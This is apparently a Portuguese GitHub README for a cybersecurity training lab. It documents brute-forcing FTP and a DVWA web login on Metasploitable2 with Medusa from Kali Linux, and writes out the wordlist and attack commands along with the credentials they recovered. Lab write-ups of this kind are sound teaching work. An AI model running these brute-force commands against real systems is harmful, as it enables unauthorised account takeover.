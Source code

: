 # Simulando-um-Ataque-de-Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux
Desafio Santander Cybersegurança 2025

Nessa fase do Treinamento, aprofundamos um pouco mais sobre as ferramentas de ataque de força bruta, com lista de usuários e senhas em um arquiv.

# AMBIENTE
Meu ambiente está rodando em um Vmware Esxi, com uma rede totalmente separada da rede local, com o endereço dos hosts sendo 192.168.222.35, sendo 1 máquina com o Kali linux, (figura1) no diretório images, e uma máquina com o metasplitable2 (figrura2), com o ip 192.168.222.3. Imagem do teste de conectividade disponível na pasta imagens com o nome (giruta3)

# ATAQUE A SERVIÇO FTP
# CRIAÇÃO DOS ARQUIVOS 
Feito a criação do arquivo de usuários e senhas (Wordlists) para o teste, foi utilizado os comandos abaixo, ilustrado na imagem (figura4).

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

# Excutando o ataque com o comando abaixo:

medusa -h 192.168.222.3 -U users.txt -P pass.txt -M ftp -t 6
Onde o parametro -h especifica o host destino, o -U informa o arquivo com a lista de usuários, o - P informa o arquivo com a lista senhas, -M informa o módulo a ser utilizado, no caso o FTP, e o -t para abrir ne exemplo 6 conexões simultâneas.

A saída do comendo confirma uma combinação de usuário e senha como Usuário msfadmin e senha msfadmin, ilustrado na imagem (figura5).

# Efetuando o acesso para ver se a combinação realmente está funcionando.

Acesso concedido conforme imagem (figura6).

# ATAQUE A PÁGINA WEB COM WORDLISTS


Nesse caso iremos criar os arquivos com os usuário e as senhas conforme feito para o teste de ataque ao serviço de FTP, usamos os mesmos comandos.

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

Após gerar os arquivos, iremos ao ataque de fato.

Iremos usar o coamnado abaixo para ralizar as tentativas de acesso ao site em questão, ilustrado na figura7.

medusa -h 192.168.222.3 -U users.txt -P pass.txt -M http \
-m PAGE:'dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^$Login=login' \
-m 'FAIL=Login failed' -t 6

Após a execução do comando, pudemos ver entre as senhas testadas que o usuário admin e a senha password foi válida para acesso ao site, conforme imagem8.
Na imagem9 podemos ver o site aberto e com o acesso feito com o usuário e senha em questão.

# ATAQUE SERVIÇO SMB




